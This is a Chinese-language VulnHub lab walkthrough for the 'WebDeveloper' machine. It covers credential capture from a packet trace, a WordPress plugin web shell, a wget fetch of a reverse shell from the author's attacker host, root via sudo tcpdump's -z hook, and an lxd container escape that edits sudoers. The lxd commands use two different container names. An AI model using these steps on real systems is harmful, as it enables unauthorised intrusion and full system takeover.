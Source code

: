 ```yaml
---
layout: post
title:  "WebDeveloper"
description: walkthrough
category: vulnhub
---
```

# WebDeveloper

![image-20200621201954952]({{ site.url }}/assets/WebDeveloper.assets/image-20200621201954952.png)



![image-20200621202010388]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202010388.png)

![image-20200621202802738]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202802738.png)

![image-20200621202834878]({{ site.url }}/assets/WebDeveloper.assets/image-20200621202834878.png)

Wireshark分析一下。找到登录时的发包内容及明文凭证

![image-20200621203407035]({{ site.url }}/assets/WebDeveloper.assets/image-20200621203407035.png)

```bash
webdeveloper
Te5eQg&4sBS!Yr$)wf%(DcAd
```

登录wp

![image-20200621203848874]({{ site.url }}/assets/WebDeveloper.assets/image-20200621203848874.png)

老套路，改404

![image-20200621204507068]({{ site.url }}/assets/WebDeveloper.assets/image-20200621204507068.png)

但是上传时出现错误

![image-20200621205352126]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205352126.png)



还有一种方法是修改插件内的php文件，也可以达成需要的效果

![image-20200621205258982]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205258982.png)

浏览器激活

```bash
http://10.10.10.141/wp-content/plugins/akismet/akismet.php
```



得到shell

![image-20200621205541654]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205541654.png)

基本枚举后在wp的设置中找到mysql凭证

![image-20200621205701460]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205701460.png)

```bash
webdeveloper
MasterOfTheUniverse
```

尝试密码复用

![image-20200621205827640]({{ site.url }}/assets/WebDeveloper.assets/image-20200621205827640.png)

成功并且直接就发现可以sudo利用tcpdump

首先在tmp目录下下载我们预先在kali制作好的php reshell

![image-20200622212446204]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212446204.png)

```bash
wget http://192.168.43.66:8080/php-reshell.php
```

![image-20200622212511138]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212511138.png)

```bash
echo $'php /tmp/php-reshell.php' > /tmp/.evil
chmod +x /tmp/.evil
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.evil -Z root
```

![image-20200622212646331]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212646331.png)

![image-20200622212702056]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212702056.png)

![image-20200622212716943]({{ site.url }}/assets/WebDeveloper.assets/image-20200622212716943.png)



还有另外一种提权方法



考虑到用户是lxd组成员

![image-20200621214618368]({{ site.url }}/assets/WebDeveloper.assets/image-20200621214618368.png)

可以尝试另外一种提权方法

参考https://reboare.github.io/lxd/lxd-escape.html

```bash
lxd init
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add evil whatever disk source=/ path=/mnt/root recursive=true
lxc start evil
lxc exec evil bash
```

![image-20200621215411035]({{ site.url }}/assets/WebDeveloper.assets/image-20200621215411035.png)

一路回车默认即可





我们创建了一个lxc容器，为其分配了安全性特权，并将完整的磁盘安装在下/mnt/root

这时我们可以对容器内的所有内容进行控制和修改。我们有很多选择。比如修改passwd已增加root用户。也可以修改sudoers，让我们拥有的用户获得sudo 所有命令的权限。

这里我们修改sudoer

```bash
echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```

之后sudo su 即直接提权